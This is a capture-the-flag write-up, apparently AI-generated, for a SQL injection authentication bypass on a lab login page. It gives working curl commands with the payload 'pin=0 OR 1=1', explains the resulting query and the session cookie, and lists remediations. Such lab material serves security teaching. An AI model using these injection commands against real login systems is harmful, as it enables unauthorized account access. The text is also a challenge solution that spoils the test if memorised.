 ```markdown
# SQL Injection Authentication Bypass - Final Solution

## Challenge Description
A login page vulnerable to SQL injection, requiring authentication as admin to reveal the flag. The application uses SQLite database with username and PIN authentication.

## Vulnerability Analysis
**Type**: SQL Injection via PIN parameter  
**Location**: `pin` parameter in login form  
**Root Cause**:
- Unsanitized numeric input in SQL query
- Lack of parameterized queries
- PIN validation only checks first character is numeric

## Successful Exploitation

### Exploit Steps
1. **Perform the injection**:
   ```bash
   curl -X POST -d "user-alias=admin&pin=0 OR 1=1" \
     http://challenge.localhost/login-page -c cookies.txt
   ```

2. **Access admin page**:
   ```bash
   curl -b cookies.txt http://challenge.localhost/login-page
   ```

### Single Command Version:
```bash
curl -X POST -d "user-alias=admin&pin=0 OR 1=1" \
  http://challenge.localhost/login-page -b "" -c cookies.txt -L | grep "flag{"
```

## Technical Explanation

1. **Payload Analysis**:
   - `user-alias=admin`: Provides correct username
   - `pin=0 OR 1=1`: Bypasses PIN check
   - Resulting query:
     ```sql
     SELECT * FROM users WHERE username = 'admin' AND pin = 0 OR 1=1
     ```

2. **Why It Works**:
   - `OR 1=1` makes the condition always true
   - Bypasses PIN verification while keeping correct username
   - Returns the admin record without knowing the PIN

3. **Session Handling**:
   - First request sets valid admin session cookie
   - Second request uses cookie to access protected content

## Impact
- Full authentication bypass
- Access to admin privileges
- Disclosure of sensitive data (flag)

## Remediation
1. **Use Parameterized Queries**:
   ```python
   db.execute("SELECT...WHERE username=? AND pin=?", (username, pin))
   ```

2. **Input Validation**:
   - Enforce numeric-only PINs
   - Implement length checks

3. **Additional Protections**:
   - Rate limiting
   - WAF rules
   - Secure session management

## Lesson Learned
Never trust user input in SQL queries, even for numeric fields. Always use parameterized queries and proper input validation.
```

This writeup includes:
1. Clear vulnerability classification
2. Working exploit commands
3. Technical explanation
4. Impact assessment
5. Prevention measures
6. Proper Markdown formatting

The key differences from previous attempts:
- Targets the PIN parameter instead of username
- Uses numeric SQL injection
- Maintains clean admin username in session
- More reliable than comment-based approaches